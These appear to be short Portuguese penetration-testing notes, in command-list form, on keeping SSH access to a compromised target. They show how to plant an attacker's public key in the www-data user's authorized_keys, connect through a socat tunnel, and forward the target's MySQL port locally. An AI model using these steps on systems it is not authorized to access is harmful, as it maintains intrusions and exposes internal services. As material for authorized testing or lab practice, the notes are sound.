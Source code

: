 # SSH

ALVO ==>> cat ~/.ssh/authorized_keys
LOCAL ==>> ssh-keygen
LOCAL ==>> cat id_rsa.pub (Copiar)
ALVO ==>> nano cat ~/.ssh/authorized_keys (Colar sua chave pública)
LOCAL ==>> ssh-add
LOCAL ==>> Conectar no alvo via SSH.

---

LOCAL ==>> ```bash
ssh-keygen -P "" -f keys
```
*Será gerado as chaves públicas e privadas.*

LOCAL ==>> ```bash
cat keys.pub *Copie a chave*
```
*Copie a chave pública para inserirmos no alvo.*

ALVO ==>> ```bash
mkdir ~www-data/.ssh/
```
*Cria uma pasta de ssh para o usuário www-data.*

ALVO ==>> ```bash
echo "**Cole a chave aqui**" >> ~/.ssh/autorized_keys
```
*Cria uma chave autorizada no servidor.*

LOCAL ==>> ```bash
ssh www-data@127.0.0.1 -p 2222 -i keys
```
*No comando acima estamos passando o usuário www-data e estamos utilizando o tunelamento, caso tenha dúvidas aconselho consultar o socat. Então é feito a conexão na porta local 2222 que será tunelada e passamos a chave privada keys gerada anteriormente para conectar.*

Criando redirecionamento através do SSH:
```bash
ssh www-data@127.0.0.1 -p 2222 -i keys -L 3333:127.0.0.1:3306
```
*Nesse comando a porta 3306 do alvo está sendo redirecionada para a porta local 3333.*
